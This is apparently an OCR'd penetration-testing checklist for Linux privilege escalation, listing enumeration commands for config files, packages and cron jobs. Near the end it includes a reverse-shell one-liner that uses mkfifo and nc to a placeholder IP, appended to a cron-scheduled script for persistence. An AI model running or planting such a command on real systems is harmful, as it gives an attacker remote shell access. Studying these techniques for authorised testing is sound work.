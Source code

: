 - [ ] List configuration files on the Target Machine
```bash
ls /etc/*.conf
```
- Check for misconfigured settings

# Enumerating Packages

- [ ] List all installed packages on the Target Linux Machine
```bash
dpkg -l
```
```bash
rpm -qa
```
```bash
ls -lah /usr/bin/
```
```bash
ls -lah /sbin/
```

# Enumerating Scheduled Jobs

- [ ] Inspect log files for "cron" on the Target Machine
```bash
grep "CRON" /var/log/syslog
```
- Try with other log files
	- `ls /var/log`

- [ ] List all `cron` jobs on the Target Machine
```bash
ls -lah /etc/cron*
```

- [ ] View `crontab` on the Target Machine
```bash
cat /etc/crontab
```

- [ ] List `cron` jobs for the current user on the Target Machine
```bash
crontab -l
```

- [ ] List `cron` jobs for the root user on the Target Machine
```bash
sudo crontab -l
```

- [ ] Add a Reverse Shell One-Liner to a Cron Scheduled Script on the Target Machine
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.xxx.xxx 1234 >/tmp/f" >> some_scheduled_script.sh
```
# Enumerating Files and Directories
